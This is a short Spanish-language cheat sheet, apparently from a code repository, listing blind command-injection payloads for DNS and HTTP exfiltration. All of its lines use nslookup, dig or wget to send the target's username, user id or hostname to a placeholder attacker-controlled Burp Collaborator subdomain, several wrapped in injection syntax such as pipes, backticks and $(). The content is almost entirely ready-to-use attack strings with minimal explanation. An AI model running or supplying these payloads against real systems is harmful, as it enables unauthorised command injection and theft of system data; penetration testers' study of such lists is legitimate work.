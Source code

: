 ```yaml
---

### 🌐 **DNS Exfiltration Cheat Sheet**

---
```

---




## **Payloads usando `nslookup`**
Estos payloads intentan realizar una consulta DNS hacia un subdominio controlado.  
```python
||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
nslookup `whoami`.BURP-COLLABORATOR-SUBDOMAIN
nslookup $USER.BURP-COLLABORATOR-SUBDOMAIN
nslookup $(id -un).BURP-COLLABORATOR-SUBDOMAIN
nslookup x.BURP-COLLABORATOR-SUBDOMAIN
nslookup $(hostname).BURP-COLLABORATOR-SUBDOMAIN
```

---
## **Payloads usando `dig`**
Estos payloads hacen uso de `dig` para realizar consultas DNS hacia el subdominio controlado.  
```python
dig $(whoami).BURP-COLLABORATOR-SUBDOMAIN
dig `whoami`.BURP-COLLABORATOR-SUBDOMAIN
dig $USER.BURP-COLLABORATOR-SUBDOMAIN
dig @8.8.8.8 x.BURP-COLLABORATOR-SUBDOMAIN
```

---
## **Payloads usando `wget`**
Utiliza `wget` para enviar información a través de una solicitud HTTP.  
```python
wget http://BURP-COLLABORATOR-SUBDOMAIN/$(whoami)
wget --post-data="data=$(id -un)" http://BURP-COLLABORATOR-SUBDOMAIN/
wget --header="User-Agent: $(hostname)" http://BURP-COLLABORATOR-SUBDOMAIN/
```

---

